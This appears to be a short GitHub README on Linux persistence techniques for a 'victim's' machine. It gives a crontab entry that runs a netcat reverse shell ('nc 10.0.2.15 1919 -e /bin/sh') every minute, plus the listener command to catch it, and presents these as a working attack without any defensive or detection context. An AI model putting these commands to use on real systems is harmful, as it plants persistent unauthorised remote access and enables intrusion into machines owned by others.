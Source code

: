 # Linux_Persistence_Techniques
Methods to be persistent in Victim's linux machine or sever.

#   Persistence via CRONJOB 



[What is cron ?](https://linktodocumentation)



## Cron Installation - 

To Install cronjob in your Linux or ubuntu machine

```bash
sudo apt-get install cron
```

To Edit CronTab File Paste this following command
```bash
crontab -e 
```
Inside Crontab file Paste this Netcat reverse shell with * * * * * .
### EXAMPLE : 
```bash
 * * * * * nc 10.0.2.15 1919 -e /bin/sh
 ```
 
Now! we all done.
This cron job will connect to a netcat listener every minute.

Lets Start Netcat Listner
```bashnc
nc -nvlp 1919
```
ALRIGHT !!!!

NOW WE GOT REVERSE SHELL EVERYSINGLE MINUTE..



